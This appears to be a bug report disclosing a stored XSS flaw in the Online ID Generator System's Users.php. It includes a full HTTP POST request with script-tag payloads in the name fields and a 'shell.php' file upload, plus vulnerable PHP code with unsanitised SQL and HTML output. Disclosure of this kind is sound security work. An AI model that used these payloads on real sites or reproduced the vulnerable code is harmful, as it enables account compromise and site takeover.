



# [Online ID Generator System-Stored XSS-Users.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/php/14917/online-id-generator-system-using-php-free-source-code.html

**[Affected Version]:** Online ID Generator System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"id_generator_db"**.

5. **Import** the provided **`SQL`** file. The file is known as **`id_generator_db.sql`** located inside the **database** folder.

6. **Browse** the **Online ID Generator System** in a **browser**. i.e. **`http://localhost/id_generator`**.

   **Admin Access Information:**

   Username: **admin**
   Password: **admin123**

## Bug Information

**[Vulnerability type]:** Stored XSS

**[Vulnerability Url]:** `http://localhost/id_generator/classes/Users.php?f=save`

**[Vulnerability Location]:** id_generator/classes/Users.php

**[Vulnerability Test]:**

1. View `http://localhost/id_generator/admin/?page=user`, Insert the XSS payload in **"First Name"** and **"Last Name"**.

   

2. After clicking the update button, the update is successful and the XSS payload is successfully stored in the database.

   ```bash
   POST /id_generator/classes/Users.php?f=save HTTP/1.1
   Host: localhost
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
   Accept: */*
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   X-Requested-With: XMLHttpRequest
   Content-Type: multipart/form-data; boundary=---------------------------14553066402069541021603745978
   Content-Length: 867
   Origin: http://localhost
   Connection: close
   Referer: http://localhost/id_generator/admin/?page=user
   Cookie: Phpstorm-10d910bb=a6bc0397-210c-4145-96b8-e9aedf363376; PHPSESSID=c6ikif3reuhfclaa66bo04s2sj
   
   -----------------------------14553066402069541021603745978
   Content-Disposition: form-data; name="id"
   
   1
   -----------------------------14553066402069541021603745978
   Content-Disposition: form-data; name="firstname"
   
   <script>alert(1)</script>
   -----------------------------14553066402069541021603745978
   Content-Disposition: form-data; name="lastname"
   
   <script>alert(2)</script>
   -----------------------------14553066402069541021603745978
   Content-Disposition: form-data; name="username"
   
   admin
   -----------------------------14553066402069541021603745978
   Content-Disposition: form-data; name="password"
   
   
   -----------------------------14553066402069541021603745978
   Content-Disposition: form-data; name="img"; filename="shell.php"
   Content-Type: application/octet-stream
   
   <?php phpinfo(); ?>
   -----------------------------14553066402069541021603745978--
   
   ```

3. Visit `http://localhost/id_generator/admin/?page=user`, and a pop-up window appears.

   

   

**[code analysis]:**

in id_generator/classes/Users.php

```php
<?php
    require_once('../config.php');
Class Users extends DBConnection {
    private $settings;
    public function __construct(){
        global $_settings;
        $this->settings = $_settings;
        parent::__construct();
    }
    public function __destruct(){
        parent::__destruct();
    }
    public function save_users(){
        extract($_POST);
        $data = '';
        $chk = $this->conn->query("SELECT * FROM `users` where username ='{$username}' ".($id>0? " and id!= '{$id}' " : ""))->num_rows;
        if($chk > 0){
            return 3;
            exit;
        }
        foreach($_POST as $k => $v){
            if(!in_array($k,array('id','password'))){
                if(!empty($data)) $data .=" , ";
                $data .= " {$k} = '{$v}' ";
            }
        }
        if(!empty($password)){
            $password = md5($password);
            if(!empty($data)) $data .=" , ";
            $data .= " `password` = '{$password}' ";
        }

        if(isset($_FILES['img']) && $_FILES['img']['tmp_name'] != ''){
            $fname = 'uploads/'.strtotime(date('y-m-d H:i')).'_'.$_FILES['img']['name'];
            $move = move_uploaded_file($_FILES['img']['tmp_name'],'../'. $fname);
            if($move){
                $data .=" , avatar = '{$fname}' ";
                if(isset($_SESSION['userdata']['avatar']) && is_file('../'.$_SESSION['userdata']['avatar']) && $_SESSION['userdata']['id'] == $id)
                    unlink('../'.$_SESSION['userdata']['avatar']);
            }
        }
        if(empty($id)){
            $qry = $this->conn->query("INSERT INTO users set {$data}");
            if($qry){
                $this->settings->set_flashdata('success','User Details successfully saved.');
                return 1;
            }else{
                return 2;
            }

        }else{
            $qry = $this->conn->query("UPDATE users set $data where id = {$id}");
            if($qry){
                $this->settings->set_flashdata('success','User Details successfully updated.');
                foreach($_POST as $k => $v){
                    if($k != 'id'){
                        if(!empty($data)) $data .=" , ";
                        $this->settings->set_userdata($k,$v);
                    }
                }
                if(isset($fname) && isset($move))
                    $this->settings->set_userdata('avatar',$fname);

                return 1;
            }else{
                return "UPDATE users set $data where id = {$id}";
            }

        }
    } 

}

$users = new users();
$action = !isset($_GET['f']) ? 'none' : strtolower($_GET['f']);
switch ($action) {
    case 'save':
        echo $users->save_users();
        break;
    case 'fsave':
        echo $users->save_fusers();
        break;
    case 'ssave':
        echo $users->save_susers();
        break;
    case 'delete':
        echo $users->delete_users();
        break;
    default:
        // echo $sysset->index();
        break;
}
```

/id_generator/admin/user/index.php

```php+HTML
<div class="form-group">
    <label for="name">First Name</label>
    <input type="text" name="firstname" id="firstname" class="form-control" value="<?php echo isset($meta['firstname']) ? $meta['firstname']: '' ?>" required>
</div>
<div class="form-group">
    <label for="name">Last Name</label>
    <input type="text" name="lastname" id="lastname" class="form-control" value="<?php echo isset($meta['lastname']) ? $meta['lastname']: '' ?>" required>
</div>
<div class="form-group"><div class="form-group">
    <label for="short_name" class="control-label">System Short Name</label>
    <input type="text" class="form-control form-control-sm" name="short_name" id="short_name" value="<?php echo  $_settings->info('short_name') ?>">
    </div>
```

And the output is made in the page.